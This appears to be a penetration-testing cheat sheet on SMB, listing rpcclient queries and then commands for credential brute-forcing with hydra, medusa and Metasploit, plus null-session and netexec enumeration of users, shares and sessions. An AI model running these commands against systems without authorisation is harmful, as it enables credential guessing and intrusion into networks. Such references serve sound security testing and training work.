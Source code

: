 | Query               | Description                                                   |
|---------------------|---------------------------------------------------------------|
| srvinfo             | Server information.                                           |
| enumdomains         | Enumerate all domains that are deployed in the network.       |
| querydominfo        | Provides domain, server, and user information of deployed domains. |
| netshareenumall     | Enumerates all available shares.                              |
| netsharegetinfo \<share\> | Provides information about a specific share.               |
| enumdomusers        | Enumerates all domain users.                                  |
| queryuser \<RID\>     | Provides information about a specific user.                  |

## Attacks
### Bruteforce 

```bash
# metasploit
msf > use auxiliary/scanner/smb/smb_login

# hydra
hydra -l username -P /path/to/password-list.txt smb://target-ip
hydra -L /path/to/usernames.txt -P /path/to/password-list.txt smb://192.168.1.10

# medusa
medusa -h target-ip -u username -P /path/to/password-list.txt -M smbnt
medusa -h 192.168.1.10 -U /path/to/usernames.txt -P /path/to/password-list.txt -M smbnt
```
### Enumerating
```bash
# null session
## enum4linux
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
## rpcclient 
rpcclient -U "" -N 172.16.5.5
> enumdomusers 


# guest access or valid creds
netexec smb 172.16.5.5 -u "guest" -p "" --rid-brute  

# Logged-on Users
netexec smb 10.10.110.10 -u administrator -p 'Password123!' --loggedon-users


# using netexec you can enumrate 
--shares              enumerate shares and access
--interfaces          enumerate network interfaces
--no-write-check      Skip write check on shares (avoid leaving traces when missing delete permissions)
--filter-shares FILTER_SHARES [FILTER_SHARES ...]
                      Filter share by access, option 'read' 'write' or 'read,write'
--sessions            enumerate active sessions
--disks               enumerate disks
--loggedon-users-filter LOGGEDON_USERS_FILTER
                      only search for specific user, works with regex
--loggedon-users      enumerate logged on users
--users [USER ...]    enumerate domain users, if a user is specified than only its information is queried.
--groups [GROUP]      enumerate domain groups, if a group is specified than its members are enumerated
```